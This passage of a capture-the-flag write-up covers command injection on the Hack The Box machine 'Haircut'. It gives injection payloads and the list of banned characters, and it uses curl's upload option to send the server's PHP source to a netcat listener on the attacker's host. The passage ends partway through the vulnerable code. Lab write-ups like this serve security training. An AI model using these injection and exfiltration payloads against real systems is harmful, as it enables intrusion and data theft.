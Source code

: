 
# Initial Foothold

## TCP/80 (HTTP) - Command Injection
1. `haircut.htb/exposed.htb` is susceptible to command injection due to insufficent input sanitization mechanisms.
	```
	# Payload
	`id`

	# Banned Characters
	bash
	;
	|
	!
	```
	![]({{ page.img_path }}Pasted%20image%2020220919172106.png)
2. Source code should look something like this
	```php
	$POST=$_POST['formurl']
	shell_exec("curl" . $POST)
	```
3. Start `netcat` listener
	```
	┌──(root💀kali)-[~/htb/haircut/10.10.10.24/loot]
	└─# nc -nvlp 80 > exposed.php
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	```
4. View source code of `exposed.php` w/ `-T` `curl` option
	```
	┌──(root💀kali)-[~/htb/haircut/10.10.10.24/loot]
	└─# curl --help | grep "\-T"
	 -T, --upload-file <file>  Transfer local FILE to destination

	# Payload
	formurl=-T exposed.php http://10.10.14.14/&submit=Go
	```
	![]({{ page.img_path }}Pasted%20image%2020220919175438.png)
	```
	┌──(root💀kali)-[~/htb/haircut/10.10.10.24/loot]
	└─# nc -nvlp 80 > exposed.php 
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::80
	Ncat: Listening on 0.0.0.0:80
	Ncat: Connection from 10.10.10.24.
	Ncat: Connection from 10.10.10.24:53216.
	^C
	```
5. View `exposed.php`
	```php
	<?php 
		if(isset($_POST['formurl'])){
		echo "<p>Requesting Site...</p>"; 
		$userurl=$_POST['formurl'];